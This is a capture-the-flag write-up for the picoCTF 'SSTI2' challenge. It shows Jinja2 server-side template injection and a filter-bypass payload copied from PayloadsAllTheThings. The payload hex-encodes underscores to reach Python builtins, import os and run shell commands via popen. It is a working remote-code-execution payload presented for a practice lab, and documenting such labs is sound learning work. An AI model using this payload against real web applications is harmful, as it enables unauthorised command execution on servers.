







# SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

> https://play.picoctf.org/practice/challenge/488

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Same as [SSTI1](../SSTI1/README.md) we first try {{6*7}}





So it evaluated the same as before, which means its jinja2 again. So lets try the previous working solver





We see that it has been patched. We need to find a workaround. Browsing payloadallthethings, i found an interesting payload that is said to bypass most common filter

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```





It worked, so now we just need to cat the flag


